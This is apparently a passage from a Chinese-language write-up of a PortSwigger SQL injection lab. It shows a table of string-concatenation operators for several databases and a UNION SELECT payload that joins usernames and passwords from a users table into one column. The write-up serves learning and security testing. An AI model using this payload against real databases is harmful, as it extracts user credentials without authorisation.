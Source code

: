 当只有一个列有返回值时，又想一次性查询多个数据可以尝试使用链接符

不同数据库链接符：

String concatenation

You can concatenate together multiple strings to make a single string.

| Oracle | 'foo'||'bar' |
| - | - |
| Microsoft | 'foo'+'bar' |
| PostgreSQL | 'foo'||'bar' |
| MySQL | 'foo' 'bar' [Note the space between the two strings]<br>CONCAT('foo','bar') |




payload:

```javascript
'union+select+null,username+||+'~'+||+password+from+users--+
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/SQL/images/32EE47CBC1284F779B59314689B13484clipboard.png)

